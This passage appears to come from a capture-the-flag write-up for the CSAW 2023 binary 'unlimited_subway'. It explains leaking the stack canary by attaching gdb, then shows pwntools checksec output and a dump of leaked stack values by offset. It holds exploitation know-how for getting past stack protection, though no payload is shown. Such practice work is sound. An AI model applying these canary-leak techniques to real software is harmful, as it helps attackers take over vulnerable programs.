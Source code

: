 But this is a really inefficient way of doing things, so what we can do is attach our process to gdb, use the `canary` command, and compare all of the canaries that we get to the canary that gdb gives us. 

```
[*] '/home/user/CTF/CSAW23/share/unlimited_subway_patched'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[x] Starting local process '/home/user/CTF/CSAW23/share/unlimited_subway_patched'
[+] Starting local process '/home/user/CTF/CSAW23/share/unlimited_subway_patched': pid 7628
[*] running in new terminal: ['/usr/bin/gdb', '-q', '/home/user/CTF/CSAW23/share/unlimited_subway_patched', '7628', '-x', '/tmp/pwnhflpbmvt.gdb']
[x] Waiting for debugger
[+] Waiting for debugger: Done
Initial 8 bits: 0x0a564b8c
[8]  0x00000000
[12]  0xfffffff4
[16]  0xff81d704
[20]  0xffffffec
[24]  0xff81d5c4
[28]  0x080494bd
[32]  0xff81d648
[36]  0xf7f23ba0
[40]  0x00000000
[44]  0x00000002
[48]  0xff81d5b0
[52]  0x0804a0e9
[56]  0xf7e28620
[60]  0xf7c512d9
[64]  0xff81d648
[68]  0xf7f23ba0
[72]  0x0804bf10
[76]  0xf7e27ff4
[80]  0xf7e27ff4
[84]  0xf7c5bccd
[88]  0x04775600
[92]  0x04775600
[96]  0x04775600
[100]  0xff81d5a0
[104]  0xf7e27ff4
[108]  0x00000006
[112]  0xf7e26a40
[116]  0xf7c7eb8d
[120]  0x00000008
[124]  0x00000003
[128]  0x00000980
[132]  0x00000001
[136]  0xf7e28de7
[140]  0xf7e28da0
[144]  0xf7c7e043
[148]  0xf7e28da0
[152]  0x00000006
[156]  0xf7e28da0
[160]  0xf7c7db9f
[164]  0xff81d5a0
[168]  0xf7e27ff4
[172]  0x0000000a
[176]  0x00000001
[180]  0x0804a0c3
[184]  0x00000654
[188]  0x00000000
```
